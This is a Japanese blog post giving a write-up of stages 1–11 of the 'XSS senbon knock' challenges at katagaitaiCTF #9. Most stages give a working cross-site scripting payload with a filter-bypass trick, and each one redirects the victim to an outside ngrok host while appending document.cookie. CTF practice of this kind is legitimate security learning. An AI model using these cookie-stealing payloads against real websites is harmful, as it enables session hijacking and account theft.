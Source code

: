 ```yaml
---
layout: post
date: 2017-08-28
title: katagaitaiCTF#9 xss千本ノック write up
tags: [katagaitaiCTF, katagaitaiCTF#9, xss, xss千本ノック, write up]
excerpt: 8月27日に秋葉原で開かれたkatagaitaiCTFに参加してきました。そこで行われたxss千本ノックのwrite upです。

---
```


8月27日に秋葉原で開かれたkatagaitaiCTFに参加してきました。  
そこで行われたxss千本ノックのwrite upです。

12~43問までのwrite upはhfukudaさんがアップしています。  
[katagaitai CTF勉強会 #9 writeup(Webパート)](http://0x90.hatenablog.jp/entry/2017/08/27/201021)  

[Flask](http://flask.pocoo.org/)を使って適当にサーバを建てて[ngrok](https://ngrok.com/)を使って外部に公開してクッキーを取っていきました。  


#### Stage1/Sanity Check

> Welcome to Senbon XSS!  
> In this stage, just submit the flag `FLAG{waiwai_xss}` to the FLAG form.  
> If you submit a URL to the URL form, the victime browser will automatically access the URL.  
  
ということのなのコピーして貼り付けるだけ。


#### Stage2/Sanity Check
+がurlデコードされるから%2bにして投げる。
```
/?q=<script>location.href="http://b5236666.ngrok.io?c="%2bdocument.cookie;</script>
```

#### Stage3/Sanity Check
タグを閉じてスクリプトを埋め込む。
```
/?q="><script>location.href="http://b5236666.ngrok.io?c="%2bdocument.cookie;</script>
```

#### Stage4/Sanity Check
textareaタグを閉じてスクリプトを埋め込む。
```
/?q=</textarea><script>location.href="http://b5236666.ngrok.io?c="%2bdocument.cookie;</script><textarea>
```

#### Stage5/Sanity Check
value属性を閉じて、inputタグにフォーカスが当たったときにスクリプトを走らせます。  
ただ、このままでは即時実行出来ないので`autofocus`属性を使い最初からフォーカスを当てるようにします。
```
/?q="%20autofocus%20onfocus="location.href='http://b5236666.ngrok.io?c='%2bdocument.cookie;"
```

#### Stage6/Sanity Check
シングルクォートしか使えないので、代わりにES6から導入されたテンプレートリテラルを使用すます。
```
/?q='%20autofocus%20onfocus='location.href=`http://b5236666.ngrok.io?c=${document.cookie}`;'
```

#### Stage7/Sanity Check
今回もテンプレートリテラルを使っていく。
```
/?q=value%20autofocus%20onfocus=location.href=`http://b5236666.ngrok.io?c=${document.cookie}`;
```

#### Stage8/Sanity Check
iframeタグのsrcに直接スクリプトを書く。
```
/?q=javascript:location.href=`http://b5236666.ngrok.io?c=${document.cookie}`;
```

#### Stage9/Sanity Check
scriptタグを埋め込みます。
```
/?q=<script>location.href=`http://b5236666.ngrok.io?c=${document.cookie}`;</script>
```

#### Stage10/Sanity Check
いろいろできるんだけど、chromeのxssフィルターに引っかかりまくった…  
hfukudaさんのwrite upをみて解けた。
```
/?q=<img%20src=x%20oscriptnerror=location.href="http://b5236666.ngrok.io?c="%2bdocument.cookie;>
```

#### Stage11/Sanity Check
Stage10といっしょ。
```
/?q=<img%20src=x%20oscriptnerror=location.href="http://b5236666.ngrok.io?c="%2bdocument.cookie;>
```

